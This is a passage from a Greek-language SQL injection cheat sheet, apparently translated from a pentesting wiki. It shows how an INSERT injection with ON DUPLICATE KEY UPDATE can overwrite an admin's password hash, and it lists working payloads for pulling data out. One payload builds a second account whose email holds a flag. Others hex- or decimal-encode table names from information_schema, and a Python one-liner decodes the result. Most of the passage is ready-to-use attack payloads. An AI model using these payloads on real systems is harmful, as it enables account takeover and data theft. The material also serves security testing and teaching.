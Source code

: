 - Το ερώτημα προσπαθεί να εισάγει δύο γραμμές: μία για `generic_user@example.com` και μία άλλη για `admin_generic@example.com`.
- Εάν η γραμμή για `admin_generic@example.com` υπάρχει ήδη, η ρήτρα `ON DUPLICATE KEY UPDATE` ενεργοποιείται, δίνοντας εντολή στο MySQL να ενημερώσει το πεδίο `password` της υπάρχουσας γραμμής σε "bcrypt_hash_of_newpassword".
- Κατά συνέπεια, μπορεί στη συνέχεια να γίνει προσπάθεια αυθεντικοποίησης χρησιμοποιώντας `admin_generic@example.com` με τον κωδικό πρόσβασης που αντιστοιχεί στο bcrypt hash ("bcrypt_hash_of_newpassword" αντιπροσωπεύει το bcrypt hash του νέου κωδικού πρόσβασης, το οποίο θα πρέπει να αντικατασταθεί με το πραγματικό hash του επιθυμητού κωδικού πρόσβασης).

### Εξαγωγή πληροφοριών

#### Δημιουργία 2 λογαριασμών ταυτόχρονα

Όταν προσπαθείτε να δημιουργήσετε έναν νέο χρήστη, απαιτούνται όνομα χρήστη, κωδικός πρόσβασης και email:
```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```
#### Χρησιμοποιώντας δεκαδικό ή δεκαεξαδικό

Με αυτή την τεχνική μπορείτε να εξάγετε πληροφορίες δημιουργώντας μόνο 1 λογαριασμό. Είναι σημαντικό να σημειωθεί ότι δεν χρειάζεται να σχολιάσετε τίποτα.

Χρησιμοποιώντας **hex2dec** και **substr**:
```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
Για να αποκτήσετε το κείμενο μπορείτε να χρησιμοποιήσετε:
```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```
Χρησιμοποιώντας **hex** και **replace** (και **substr**):
```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>
